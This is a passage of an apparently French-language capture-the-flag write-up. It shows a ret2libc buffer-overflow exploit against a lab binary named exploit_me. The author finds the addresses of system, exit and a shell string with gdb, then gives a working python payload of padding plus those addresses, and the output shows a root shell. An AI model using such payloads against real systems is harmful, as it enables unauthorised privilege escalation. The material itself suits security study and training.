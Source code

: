 ```
```
Donc `0xb7f8cc58`
\
\
Il nous faut aussi l'adresse de la fonction system
```
(gdb) info function system
	All functions matching regular expression "system":

	Non-debugging symbols:
	0xb7e6b060  __libc_system
	0xb7e6b060  system
	0xb7f49550  svcerr_systemerr
```
Donc `0xb7e6b060`
\
\
Pareil pour exit on obtien l'adresse `0xb7e5ebe0`

On donne tout ca a manger a exploit_me :
```./exploit_me $(python -c 'print "a"* 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"') ```\
Et paf ca fait des chocapics !
```
$ ./exploit_me $(python -c 'print "a"* 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`�����X���
$ ls
exploit_me  mail
$ whoiam
/bin/sh: 2: whoiam: not found
$ whoami
root
```
Et voilà !